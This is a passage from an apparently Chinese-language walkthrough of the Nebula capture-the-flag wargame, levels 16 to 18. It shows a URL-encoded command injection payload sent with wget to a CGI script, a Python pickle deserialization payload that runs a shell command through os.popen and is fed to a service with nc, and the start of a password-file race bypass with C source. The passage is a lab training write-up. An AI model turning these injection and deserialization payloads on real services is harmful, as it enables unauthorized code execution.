 ```bash
#!/bin/bash
getflag > /tmp/f16
```

然后注入命令 `` `/*/A` ``，urlencode 即为 `%60%2F*%2FA%60`

```bash
level16@nebula:/home/flag16$ wget "http://127.0.0.1:1616/index.cgi?username=%60%2F*%2FA%60&password=a" -O/dev/null -q
level16@nebula:/home/flag16$ cat /tmp/f16
You have successfully executed getflag on a target account
```

## Level 17

反序列化RCE，google 搜 python pickle RCE 就能出教程。

```python
In [1]: import pickle

In [2]: class MMM(object):
   ...:     def __reduce__(self):
   ...:         import os
   ...:         s = "getflag > /tmp/f17"
   ...:         return (os.popen, (s,))
   ...:

In [3]: p = pickle.dumps(MMM())

In [4]: with open('p', 'w') as f:
   ...:     f.write(p)
```

```bash
level17@nebula:~$ cat p | nc 127.0.0.1 10007
Accepted connection from 127.0.0.1:59600
level17@nebula:~$ cat /tmp/f17
You have successfully executed getflag on a target account
```

## Level 18

作者说这题有三樣寫法，我只想出来一种。

核心思路是利用多个 -d 参数可以清空指定文件，同时配合另一个进程的写入使文件开头为\x00，根据 login 函数实现：

```c
void login(char *pw)
{
  FILE *fp;

  fp = fopen(PWFILE, "r");
  if(fp) {
      char file[64];

      if(fgets(file, sizeof(file) - 1, fp) == NULL) {
          dprintf("Unable to read password file %s\n", PWFILE);
          return;
      }
                fclose(fp);
      if(strcmp(pw, file) != 0) return;       
  }
  dprintf("logged in successfully (with%s password file)\n",
      fp == NULL ? "out" : "");
  
  globals.loggedin = 1;

```